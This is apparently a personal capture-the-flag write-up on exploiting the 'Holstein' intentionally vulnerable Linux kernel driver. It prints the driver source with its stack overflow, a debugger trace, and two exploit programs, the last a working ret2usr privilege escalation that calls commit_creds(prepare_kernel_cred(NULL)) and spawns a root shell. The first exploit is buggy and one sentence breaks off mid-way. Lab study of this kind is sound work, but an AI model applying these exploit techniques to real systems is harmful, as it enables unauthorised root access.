




# How you supposed to solve this challenge
> Bad memory with kernel exploitation
#### In this note, I will try to exploit the kernel, read some documents, question myself, and find out what is the best way to approach the exploitation. This `doc.md` file is my own note for my experience, so if I made some mistake, please DM me so I can fix it, my discord username is `fritz_gerald0`. Thank you for reading.

## First step
What is the very first step of exploiting??? I would say to myself that I have to understand the binary first. </br>
The code: </br>

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/cdev.h>
#include <linux/fs.h>
#include <asm/uaccess.h>
#include <linux/slab.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("Holstein v1 vulnerable driver");

#define DEVICE_NAME "holstein"
#define BUFFER_SIZE 0x400

static char *g_buf;

static int module_open(struct inode *inode, struct file *file)
{
    printk(KERN_INFO "module_open called\n");

    g_buf = kmalloc(BUFFER_SIZE, GFP_KERNEL);
    if (!g_buf) {
        printk(KERN_INFO "kmalloc failed\n");
        return -ENOMEM;
    }

    return 0;
}

static ssize_t module_read(
    struct file *file,
    char __user *buf,
    size_t count,
    loff_t *f_pos
)
{
    char kbuf[BUFFER_SIZE] = { 0 };

    printk(KERN_INFO "module_read called\n");

    memcpy(kbuf, g_buf, BUFFER_SIZE);

    /*
     * Vulnerability:
     * count may be greater than sizeof(kbuf).
     */
    if (copy_to_user(buf, kbuf, count)) {
        printk(KERN_INFO "copy_to_user failed\n");
        return -EINVAL;
    }

    return count;
}

static ssize_t module_write(
    struct file *file,
    const char __user *buf,
    size_t count,
    loff_t *f_pos
)
{
    char kbuf[BUFFER_SIZE] = { 0 };

    printk(KERN_INFO "module_write called\n");

    /*
     * Vulnerability:
     * count may be greater than sizeof(kbuf).
     */
    if (copy_from_user(kbuf, buf, count)) {
        printk(KERN_INFO "copy_from_user failed\n");
        return -EINVAL;
    }

    memcpy(g_buf, kbuf, BUFFER_SIZE);

    return count;
}

static int module_close(struct inode *inode, struct file *file)
{
    printk(KERN_INFO "module_close called\n");

    kfree(g_buf);
    g_buf = NULL;

    return 0;
}

static struct file_operations module_fops = {
    .owner   = THIS_MODULE,
    .read    = module_read,
    .write   = module_write,
    .open    = module_open,
    .release = module_close,
};

static dev_t dev_id;
static struct cdev c_dev;

static int __init module_initialize(void)
{
    int ret;

    ret = alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME);
    if (ret) {
        printk(KERN_WARNING "Failed to register device\n");
        return ret;
    }

    cdev_init(&c_dev, &module_fops);
    c_dev.owner = THIS_MODULE;

    ret = cdev_add(&c_dev, dev_id, 1);
    if (ret) {
        printk(KERN_WARNING "Failed to add cdev\n");
        unregister_chrdev_region(dev_id, 1);
        return ret;
    }

    printk(
        KERN_INFO "holstein registered: major=%d minor=%d\n",
        MAJOR(dev_id),
        MINOR(dev_id)
    );

    return 0;
}

static void __exit module_cleanup(void)
{
    cdev_del(&c_dev);
    unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);
```

The author of this challenge, already pointed out the main vuln of this driver:</br>

```c
static ssize_t module_write(
    struct file *file,
    const char __user *buf,
    size_t count,
    loff_t *f_pos
)
{
    char kbuf[BUFFER_SIZE] = { 0 };

    printk(KERN_INFO "module_write called\n");

    /*
     * Vulnerability:
     * count may be greater than sizeof(kbuf).
     */
    if (copy_from_user(kbuf, buf, count)) {
        printk(KERN_INFO "copy_from_user failed\n");
        return -EINVAL;
    }

    memcpy(g_buf, kbuf, BUFFER_SIZE);

    return count;
}
```

Yes, the `count` var can be greater than the kernel stack itself, so if the `count` var is too large, the kernel will end up crashing, or being flow-hijacked. In fact, I have to write a check function to check if the `count` var is too large or not. </br>
So now I can say that this is a basic buffer overflow. But how to exploit it? </br>
The kernel use this struct to know what to do with the dev when user try to interact with it: </br>
```c
static struct file_operations module_fops = {
    .owner   = THIS_MODULE,
    .read    = module_read,  //user call read()
    .write   = module_write, //user call write()
    .open    = module_open,  //user call open()
    .release = module_close, //user call close()
};
```
So maybe we just verify the bug first? Writing exploitation on your own is a basic and importain skill</br>
Let start writing my own starter exploit script: </br>

The idea is simple, overwrite the return address to make the kernel run the win function and the offset is 0x418, so we will fill the buffer, overwrite saved rbp and padding and overwrite the retaddr to our win function addr!.</br>

```c
//xpl.c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

void win(void) {
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};

    puts("check\n");
    execve("/bin/sh", argv, envp);
    exit(1);
}

int main(void) {
    char payload[0x418];
    setbuf(stdout, NULL);
    int fd = open("/dev/holstein", O_RDWR);
    if (fd < 0)
        perror(open);
        exit(1);
    memset(payload, 'A', sizeof(payload));
    *(uint64_t *)(payload + 0x418) = (uint64_t)win;

    printf("ez ret2win\n");

    if (write(fd, payload, sizeof(payload)) < 0)
        fatal("write");

    close(fd);
    return 0;
}
```

run it and it... crashed? </br>


After received the crash, I try to debug the kernel to see why its crashed</br>



I do managed to jump in `win()`, but I crashed in `put`, and the kernel poweroff immediately



Turn out the program crashed in system_call() not is `put`() </br>



system_call: </br>
```bash
 ► 0xffffffff8100b9e0 <system_call>                    swapgs
   0xffffffff8100b9e3 <system_call+3>                  nop    word ptr cs:[rax + rax]
   0xffffffff8100b9f0 <system_call_after_swapgs>       mov    qword ptr gs:[0xb000], rsp          [0xffff880001a0b000] <= 0xffff88001f26ddc0
   0xffffffff8100b9f9 <system_call_after_swapgs+9>     mov    rsp, qword ptr gs:[0xb548]          RSP, [0xffff880001a0b548]
   0xffffffff8100ba02 <system_call_after_swapgs+18>    sti
   0xffffffff8100ba03 <system_call_after_swapgs+19>    sub    rsp, per_cpu.irq_stack_union+80
   0xffffffff8100ba07 <system_call_after_swapgs+23>    mov    qword ptr [rsp + 0x40], rdi
   0xffffffff8100ba0c <system_call_after_swapgs+28>    mov    qword ptr [rsp + 0x38], rsi
   0xffffffff8100ba11 <system_call_after_swapgs+33>    mov    qword ptr [rsp + 0x30], rdx
   0xffffffff8100ba16 <system_call_after_swapgs+38>    mov    qword ptr [rsp + 0x20], rax
   0xffffffff8100ba1b <system_call_after_swapgs+43>    mov    qword ptr [rsp + 0x18], r8
```

So the system_call has the `swapgs`, that use to change the gs_base </br>
CPU has 2 value: </br>
```
MSR_GS_BASE
MSR_KERNEL_GS_BASE
```
The system_call flow is: </br>

```
Ring 3:
GS_BASE        = user GS
KERNEL_GS_BASE = kernel per-CPU GS

        syscall
        ↓
        swapgs

Ring 0:
GS_BASE        = kernel per-CPU GS
KERNEL_GS_BASE = user GS
```

But our kernel is in ring 0 already, so if it use `swapgs` now, the state become chaos, and the kernel begins to crashed itself with no log. So the problem here is simple, we need to escalate the process privilege and change from ring 0 to ring 3. And this technique is called `ret2usr`.</br>
Let dive in this topic, and figure out what function do kernel use to escalate the process privilege?

How kernel manage privilege? </br>
Well, the permission of a task is saved through a struct called `struct cread` </br>

```
struct cred {
    atomic_t usage;

    uid_t uid;
    gid_t gid;

    uid_t suid;
    gid_t sgid;

    uid_t euid;
    gid_t egid;

    uid_t fsuid;
    gid_t fsgid;

    unsigned securebits;

    kernel_cap_t cap_inheritable;
    kernel_cap_t cap_permitted;
    kernel_cap_t cap_effective;
    kernel_cap_t cap_bset;

    struct user_struct *user;
    struct group_info *group_info;

    /* keyrings, LSM security context, RCU... */
};
```

The address:</br>
```
pwndbg> b prepare_kernel_cred
Breakpoint 1 at 0xffffffff8105da53
pwndbg> p/x &commit_creds
$1 = 0xffffffff8105db58
```

In this kernel version, kernel use the ` I use a [tool](https://github.com/marin-m/vmlinux-to-elf) for a easier debug session

## Last step
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define PREPARE_KERNEL_CRED  0xffffffff8105da53
#define COMMIT_CREDS         0xffffffff8105db58

uint64_t user_cs;
uint64_t user_ss;
uint64_t user_rsp;
uint64_t user_rflags;
uint64_t user_rip;

static void win(void)
{
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};

    puts("[+] Got shell!");
    execve("/bin/sh", argv, envp);
    exit(1);
}

static void save_state(void)
{
    user_rip = (uint64_t)win;

    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax prefix;"
    );
}

__attribute__((noreturn))
static void restore_state(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "swapgs;"
        "push user_ss;"
        "push user_rsp;"
        "push user_rflags;"
        "push user_cs;"
        "push user_rip;"
        "iretq;"
        ".att_syntax prefix;"
    );

    __builtin_unreachable();
}

__attribute__((noreturn))
static void get_root(void)
{
    void *(*prepare_kernel_cred)(void *) =
        (void *)PREPARE_KERNEL_CRED;

    int (*commit_creds)(void *) =
        (void *)COMMIT_CREDS;

    commit_creds(prepare_kernel_cred(NULL));
    restore_state();
}

int main(void)
{
    char payload[0x800];

    setbuf(stdout, NULL);
    save_state();

    int fd = open("/dev/holstein", O_RDWR);
    if (fd < 0) {
        perror("open");
        exit(1);
    }

    memset(payload, 'A', sizeof(payload));

    *(uint64_t *)(payload + 0x418) = (uint64_t)get_root;

    printf("ez ret2usr");

    if (write(fd, payload, sizeof(payload)) < 0) {
        perror("write");
        exit(1);
    }

    close(fd);
    return 0;
}
```
### Special
**Thanks to llh.lam, _alight.o_o, and haidagn for carrying me through this whole project and helping me finish this shit. </br>**
**Shout-out to Linus Torvalds for creating such a well-developed operating system. </br>**
**Shout-out to kasero for being the GOAT. </br>**
**Special shout-out to hvk2898 and all the girls I followed on IG for being an irreplaceable source of motivation as I worked toward my goal. </br>**
**You will always be the fire burning in the left side of my chest, carrying me through the longest nights. </br>**